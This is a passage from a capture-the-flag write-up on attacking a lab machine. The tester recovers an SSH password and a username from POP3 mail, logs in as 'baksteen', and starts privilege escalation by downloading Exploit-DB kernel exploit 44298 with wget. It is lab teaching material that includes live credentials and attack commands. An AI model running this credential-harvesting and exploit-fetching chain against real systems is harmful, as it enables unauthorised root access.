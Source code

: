 I found an SSH temporary password by reading this email, which can be seen in the highlighted area of the above screenshot. The password is given below.

**SSH Temporary Password: “S1ck3nBluff+secureshell”**

Now, we have one SSH temporary password. Since the SSH port was found open in Step 2, let’s try to log in with this password. But there is one problem: we don’t have the username. We retrieved the second message and found a message that hints that it uses the username **“baksteen.”**

**RETR 2**

![image (10).png](img4.png)

We use the credentials “baksteen: S1ck3nBluff+secureshell” to log in through SSH.

**ssh** [baksteen@10.10.193.216](mailto:baksteen@10.10.193.216)

![image (9).png](img5.png)

After the login, we can see the $ sign, which indicates that this is not a root user. This means we need to spend some more time with this CTF because the target of this CTF is to take root access. I ran the **uname –a** command, which gives information about the kernel.

After getting the shell, I came to know that I have logged in as a normal user. To get the root flag, We must be the root user in this machine. Let’s not wait any longer.

![image (8).png](img6.png)

From the output of the above command, we found that it is running on Ubuntu, and the kernel version is 4.4.0.116-generic.

## **Privilege Escalation**

From our low-privileged user shell, we can enumerate the system further. Our user does not have any sudo privileges, and we cannot access any of the other user’s home directories.

In our earlier enumeration process, I found that the machine is of the old version of Ubuntu, so I search for the exploit for the same from exploit-db

![image (1).png](img7.png)

After that, I opened the ExploitDB URL and copied the download URL.

![image (2).png](img8.png)

After that, I used the wget utility to download the exploit on the attacker’s machine. Once the exploit was downloaded, I renamed it using the mv command and used the gcc compiler to compile it. Once the compiling process was completed, an exploit file was generated.

### **Commands Used:**

**cd /var/www/html/**

**wget [https://www.exploit-db.com/download/44298](https://www.exploit-db.com/download/44298)**

**mv 44298 44298.c**
